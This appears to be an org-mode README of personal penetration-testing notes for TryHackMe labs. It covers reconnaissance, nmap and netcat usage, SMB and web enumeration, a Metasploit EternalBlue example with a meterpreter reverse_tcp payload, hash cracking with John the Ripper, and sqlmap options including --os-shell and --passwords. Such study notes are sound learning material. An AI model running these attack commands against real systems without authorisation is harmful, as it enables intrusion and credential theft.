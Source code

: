 #+TITLE: Hacking - README
#+STARTUP:CONTENT

* Setup
** Guest

	#+begin_src shell
		sudo apt install spice-vdagent

		sudo systemctl enable serial-getty@ttyS0.service
		sudo systemctl start serial-getty@ttyS0.service
	#+end_src

** Host

	 #+begin_src shell
		 vish list
		 virsh console <guest>
	 #+end_src

	#+begin_src shell
		pacman -S net-tools gnu-netcat bridge-tools
	#+end_src

** TryHackMe

	 #+begin_src shell
		 mkdir tryhackme
		 sudo mount -t 9p -o trans=virtio /media/tryhackme tryhackme/
		 nmcli connection import type openvpn file tryhackme/JoltedSloth.ovpn
	 #+end_src

* Reconnaissance
** Google Dorking

	 It's legal! It's all index, publicy available information.

*** Basic Operators

		| Operator                        | Description                                |
		|---------------------------------+-------------------------------------------|
		| Single word vs. combining words | batman / batman dark knight                |
		| Using the ""                    | "dark knight" batman                       |
		| Boolean operators               | batman AND "dark knight"                   |
		| Special Characters              | batman -joker, batman | "dark knight"     |

*** Advanced Operators

		| Operator    | Action                                                                     |
		|-------------+----------------------------------------------------------------------------|
		| cache:      | Displays Google's cached version.                                          |
		| link:       | Shows a list o web pages that have links to your target.                   |
		| related:    | Smilar web pages.                                                          |
		| info:       | View information Google has on the target.                                 |
		| site:       | Limits results to just the domain listed.                                  |
		| allintitle: | Limits resulst to those *websites* with ALL the search words in the title. |
		| intitle:    | Limits results to *documents* that contain the search word in the title.   |
		| allinurl:   | Limits results to only those *webpages* with ALL search words in the URL   |
		| inurl:      | Limits results to *documents* that contain the search word in the URL.     |
		| intext:     | Limits results to *documents* that contain the search word in text.        |
		| filetype:   | Search for a file by its extension                                         |

*** The Google Hacking Database

		https://www.exploit-db.com/google-hacking-database

		The Google Hacking Database (GHDB) is a categorized index of Internet search engine queries designed to uncover interesting, and usually sensitive, information made publicly available on the Internet.

*** Other Google Hacking Tools

		- Goolink Scanner
		- Google Hack Honeypot
		- SearchDiggity
		- GooScan
		- MetaGoofil
		- SiteDigger

** Shodan.io

	 Shodan.io is a search engine for the Internet of Things.

	 [https://www.shodan.io/]
	 [https://skerritt.blog/shodan/]

	| Operator | Description          | Example       |
	|----------+----------------------+---------------|
	| asn:     | Filters on AS Number | asn:ASxxx     |
	| product: | Filters on product   | product:MYSQL |

*** Dorking

		[https://github.com/humblelad/Shodan-Dorks]

*** API

		[https://developer.shodan.io/api/clients]

*** Browser Extension

	Shodan as a web browser extension.
	[https://chrome.google.com/webstore/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap]

** WiGLE.net: Wireless Network Mapping

	 WiGLE is a website for collecting information about the different wireless hotspots around the world.

	 [https://www.wigle.net/]

* Network utilities
** nmap                                                             :network:

	 #+begin_src shell
		 nmap -p- -T4 <ip>
		 nmap -sC -sV -p<ports> <ip>

		 ports=$(nmap -p- -T4 192.168.1.1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
	 #+end_src

*** Scans

		| Switch | Description          |
		|--------+----------------------|
		| -sT    | TCP Connect Scan     |
		| -sS    | Syn "Half-open" Scan |
		| -sU    | UDP scan             |

*** Port specification

		| Switch | Description              | Example                   |
		|--------+--------------------------+---------------------------|
		| -p     | Port or range            | nmap -p 22-80 192.168.1.1 |
		| -p-    | Scan all ports           | nmap -p- 192.168.1.1      |
		| -F     | Fast port scan (top 100) | nmap -F 192.168.1.1       |

*** Service and version detection

		| Switch | Description                                                                                     | Example              |
		|--------+-------------------------------------------------------------------------------------------------+----------------------|
		| -A     | "Aggressive scan". Enables OS detection, version detection, script scanning, and traceroute.    | nmap -A 192.168.1.1  |
		| -O     | Enable OS detection.                                                                            | nmap -O 192.168.1.1  |
		| -sC    | Performs a script scan using the default set of scripts. Contains scripts considered intrusive. | nmap -sC 192.168.1.1 |
		| -sV    | Detect the version of services                                                                  | nmap -sV 192.168.1.1 |

*** Output

		| Switch  | Description             | Example             |
		|---------+-------------------------+---------------------|
		| -oN     | Normal output           |                     |
		| -oX     | XML output              |                     |
		| -oG     | Grepable output         |                     |
		| -oA     | Output to all formats   |                     |
		| -v, -vv | Verbosity               |                     |
		| -n      | Never do DNS resolution | nmap -n 192.168.1.1 |
		| --open  | Output only open port   |                     |

** Netcat                                                           :network:

	 #+begin_src shell
		 nc -lnvp 9999
	 #+end_src

	 | Switch | Description                            |
	 |--------+----------------------------------------|
	 | -l     | listen mode, for inbound connects      |
	 | -p     | local port number                      |
	 | -e     | specify filename to exec after connect |
	 | -n     | numeric only IP addresses, no DNS      |
	 | -u     | UDP mode                               |

* Multimedia
** exiftool

	 ExifTool is a free and open-source software program for reading, writing, and manipulating image, audio, video, and PDF metadata.

	 #+begin_src shell
		 sudo apt install exiftool
		 exiftool image
	 #+end_src

* Enumeration
** Samba
*** smbmap                                                :samba:enumeration:

		#+begin_src shell
			smbmap -H 192.168.1.1
		#+end_src

		| Options | Description                   |
		|---------+-------------------------------|
		| -u      | Username to authenticate with |
		| -p      | Password to authenticate with |
		| -H      | IP of host                    |

*** smbclient                                             :samba:enumeration:

		ftp-like client to access SMB/CIFS resources on servers.

		#+begin_src shell
			smbclient -L \\\\192.168.1.1
		#+end_src

		| Option | Description                         |
		|--------+-------------------------------------|
		| -I     | Destination IP                      |
		| -u     | Username to authenticate with       |
		| -p     | Password to authenticate with       |
		| -N     | Suppress the normal password prompt |

*** impacket

		Impacket is a collection of Python classes for working with network protocols, with a collection of extremely useful windows scripts.

		[https://github.com/SecureAuthCorp/impacket]

		Note: impacket has scripts that use other protocols and services besides samba. (TryHackMe)

*** sublist3r

	Sublist3r is a python tool designed to enumerate subdomains of websites using OSINT.

	[https://github.com/aboul3la/Sublist3r]

** Web
*** nikto                                                   :web:enumeration:

		`nikto` is a popular web scanning tool that allows users to find common web vulnerabilities. It is commonly used to check for common CVE's such as shellshock, and to get general information about the web server that you're enumerating. (TryHackMe)
		#+end_quote


		#+begin_src shell

		#+end_src

	 | Switch    | Description                                     | Example           |
	 |-----------+-------------------------------------------------+-------------------|
	 | -h, -host | Host(s) to target                               | -host 192.168.1.1 |
	 | -id       | ID and password to use for basic authentication | -id "id:passwod"  |

*** dirsearch                                               :web:enumeration:

		#+begin_quote
		An advanced command-line tool designed to brute force directories and files in webservers, AKA web path scanner
		#+end_quote

		[https://github.com/maurosoria/dirsearch]

		#+begin_src shell
			sudo apt-get install dirsearch

			dirsearch -u http://10.10.10.28 -w /usr/share/wordlists/dirb/common.txt
		#+end_src

	 | Switch          | Description                               | Example                                                     |
	 |-----------------+-------------------------------------------+-------------------------------------------------------------|
	 | -u, --url       | Target URL                                | dirsearch -u http://192.168.1.1                             |
	 | -w, --wordlists | Customize wordlists (separated by commas) | dirsearch -u TARGET -w /usr/share/wordlists/dirb/common.txt |

*** gobuster                                                :web:enumeration:

		A web path scanner.

		#+begin_src shell
			sudo apt-get install gobuster
			gobuster dir -u http://192.168.1.1 -w /usr/share/wordlists/dirb/common.txt
		#+end_src

	 | Commands | Description                          | Example                            |
	 |----------+--------------------------------------+------------------------------------|
	 | dir      | Uses directory/file enumeration mode | gobuster dir -u http://192.168.1.1 |

	 | Flag           | Description |
	 |----------------+-------------kt|
	 | -w, --wordlist |             |

**** dir

		 | Flag | Description                     |
		 |------+---------------------------------|
		 | -x   | File extension(s) to search for |

* Exploitation
** Reverse shells

	 In Kali, there are some in `/usr/share/webshells`.

* Frameworks
** Metasploit                                                     :framework:

	 Metasploit is one of the most popular penetration testing frameworks around. It contains a large database of almost every major CVE, which you can easily use against a machine. (TryHackMe).

	 #+begin_src shell
		 sudo apt install metasploit-framework
	 #+end_src

	 *Example*

	 #+begin_src shell
		 msfconsole
		 search "eternal blue"
		 use exploit/windows/smb/ms17_010_eternalblue
		 set RHOSTS 192.168.1.1
		 set RPORT 80
		 set PAYLOAD windows/x64/meterpreter/reverse_tcp
		 exploit
	 #+end_src

	 | Command | Description                     |
	 |---------+---------------------------------|
	 | search  | Search modules                  |
	 | use     | Use module                      |
	 | info    | Display information on a module |

*** Options

 | Name    | Description        | Example                |
 |---------+--------------------+------------------------|
 | RHOSTS  | Set target host(s) | set RHOSTS 192.168.1.1 |
 | RPORT   | Set target port    | set RPORT 80           |
 | payload | Set payload        | set payload <value>    |

*** Exploit

 | Flag | Description           |
 |------+-----------------------|
 | -j   | Run in the background |

*** Sessions

 | Flag | Description                            |
 |------+----------------------------------------|
 | -i   | Interact with the supplied sessions id |

*** Meterpreter

		Meterpreter is metasploits own "control center" where you can do various things to interact with the machine. (TryHackMe)
		[https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/]

		Note: Regular shells can usually be upgraded to meterpreter shells by using the module post/multi/manage/shell_to_meterpreter.

		| Command    | Description                                                               |
		|------------+---------------------------------------------------------------------------|
		| download   | Download a file from the machine                                          |
		| upoad      | Upload a file to the machine                                              |
		| ps         | List all running processes                                                |
		| migrate    | Change processes on the victim                                            |
		| ls         | List files in the current directory on the machine                        |
		| execute    | Execute a command on the remote host                                      |
		| shell      | Start an interactie shell on the remote host                              |
		| search     | Search files on the remote                                                |
		| cat        | Output file on the remote                                                 |
		| background | Put meterpreter shell in the background (allows to run other msf modules) |

* Privilege escalation
** Linux

	 [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/]
	 [https://github.com/rebootuser/LinEnum]
	 [https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh]
	 [https://github.com/mzet-/linux-exploit-suggester]

*** GTFOBins

		#+begin_quote
		GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.
		#+end_quote

		[https://gtfobins.github.io/]

*** sudo

		| Switch     | Description                                        |
		|------------+----------------------------------------------------|
		| -l, --list | list user's privileges or check a specific command |

** Windows

	[https://www.fuzzysecurity.com/tutorials/16.html]
	[https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp]
	[https://github.com/411Hall/JAWS]
* Hash Cracking

	Note: Different hashing algorithms treat salts differently. Some prepend them and some append them. Research what it is you're trying to crack, and make the distinction. (TryHackMe)

** hashid                                                          :cracking:

	 Identify the different types of hashes used to encrypt data.

** hashcat                                                         :cracking:

	 [https://hashcat.net/wiki/doku.php?id=example_hashes]

	 | Flag | Description               |
	 |------+---------------------------|
	 | -m   | Sets the mode (hash-type) |
	 | -a   | Sets the attack mode      |

** John the Ripper                                                 :cracking:

	 Cracking zip file.

	 #+begin_src shell
		 zip2john target.zip > target.zip.hashes
		 john target.zip.hashes -w /usr/share/wordlists/rockyou.txt
	 #+end_src

	 | Flag           | Description                                        |
	 |----------------+----------------------------------------------------|
	 | -format:FORMAT | Allows to override the ciphertext format detection |
	 | -wordlist:FILE | Enable the wordlist mode, reading words from FILE. |

* SQL Injection
*** sqlmap                                                        :injection:

		[https://www.owasp.org/index.php/SQL_Injection]

		sqlmap-cheat-sheet:
		[https://gist.github.com/jkullick/03b98b1e44f03986c5d1fc69c092220d]

		| Option      | Description                                        |
		|-------------+----------------------------------------------------|
		| --batch     | Never ask for user input, use the default behavior |
		| -u          | Url to check                                       |
		| -p          | Testable parameter(s)                              |
		| -data       | Data string to be ssent through POST               |
		| --dbs       | Enumerate databases                                |
		| --tables    | Enumerate tables                                   |
		| --columns   | Enumerate columns                                  |
		| --passwords | Enumerate passwords                                |
		| -D          | Database to enumerate                              |
		| -T          | Table to enumerate                                 |
		| -C          | Column to enumerate                                |
		| --os-shell  | Prompt for an interative operating system shell    |
